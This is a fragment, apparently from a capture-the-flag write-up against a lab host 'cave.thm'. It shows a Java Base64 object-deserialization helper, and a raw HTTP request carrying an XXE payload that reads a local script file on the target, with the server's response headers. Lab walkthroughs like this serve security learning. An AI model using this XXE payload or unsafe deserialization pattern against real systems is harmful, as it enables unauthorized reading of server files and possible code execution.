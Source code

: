 class Serialize {

    /**
     * Read the object from Base64 string.
     */
    public static Object fromString(String s) throws IOException,
            ClassNotFoundException {
        byte[] data = Base64.getDecoder().decode(s);
        ObjectInputStream ois = new ObjectInputStream(
                new ByteArrayInputStream(data));
        Object o = ois.readObject();
        ois.close();
        return o;
    }

    /**
     * Write the object to a Base64 string.
     */
    public static String toString(Serializable o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }
}











POST /action.php HTTP/1.1
Host: cave.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://cave.thm
Connection: close
Referer: http://cave.thm/

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:////home/cave/src/run.sh'>]><root>&test;</root>






HTTP/1.1 200 OK
Date: Thu, 25 Sep 2025 23:27:31 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 90
Connection: close
Content-Type: text/html; charset=UTF-8
